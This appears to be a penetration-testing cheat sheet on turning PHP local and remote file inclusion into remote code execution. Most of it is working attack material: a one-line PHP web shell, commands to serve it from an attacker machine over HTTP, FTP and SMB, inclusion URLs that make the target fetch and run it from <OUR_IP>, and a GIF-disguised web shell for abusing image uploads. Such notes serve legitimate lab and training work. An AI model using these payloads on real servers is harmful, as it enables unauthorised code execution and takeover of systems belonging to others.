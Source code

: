 * An LFI is not necessarily a RFI
	1. Vulnerable function may not allow including remote URLs
	2. May only control a portion of the filename and not the protocol wrapper `http://`
	3. Configuration may prevent RFI all together. 
### Verify RFI 
Test for `allow_url_include` setting:
```shell
echo '<PHP config BASE64' | base64 -d | grep allow_url_include
```

Always try and include a local URL
`Do not use a the vulnerable page as this will cause a recursive loop and DoS`

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

### RCE

```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
#### HTTP
```shell
sudo python3 -m http.server <LISTENING_PORT>
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

#### FTP
```shell
sudo python -m pyftpdlib -p 21
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```
#### SMB
```shell
impacket-smbserver -smb2support share $(pwd)
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
### File Uploads
#### Image Upload
Crafting malicious image
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
Upload an image and work out where it gets uploaded too
```url
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
